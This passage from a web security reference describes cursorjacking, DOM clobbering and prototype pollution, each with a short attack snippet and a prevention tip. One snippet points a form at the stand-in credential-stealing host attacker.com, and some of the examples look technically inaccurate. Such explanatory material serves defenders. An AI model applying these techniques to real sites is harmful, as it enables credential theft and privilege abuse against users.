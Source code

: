 **Prevention**: X-Frame-Options header, frame-busting scripts, CSP frame-ancestors.

### Cursorjacking

**Description**: Manipulates the cursor position to trick users into clicking on hidden elements.

**Attack Vector**:

```css
/* Attacker hides cursor and creates fake cursor */
* {
  cursor: none !important;
}
.fake-cursor {
  position: absolute;
  pointer-events: none;
  /* Follows mouse but offset from real position */
}
```

**Prevention**: Detect cursor manipulation, use pointer-events properly.

## DOM-based Attacks

### DOM Clobbering

**Description**: Overwrites DOM properties to manipulate application behavior.

**Attack Vector**:

```html
<!-- Attacker controls form elements -->
<form id="loginForm">
  <input name="username" />
  <input name="password" />
</form>

<!-- Attacker injects: -->
<div id="loginForm">
  <div id="action">https://attacker.com/steal-credentials</div>
</div>
```

**Prevention**: Use Object.hasOwnProperty(), strict property access.

### Prototype Pollution

**Description**: Modifies Object.prototype to affect all objects in the application.

**Attack Vector**:

```javascript
// Attacker controls object merge
const userInput = { __proto__: { isAdmin: true } };
Object.assign({}, userInput); // Pollutes prototype
```
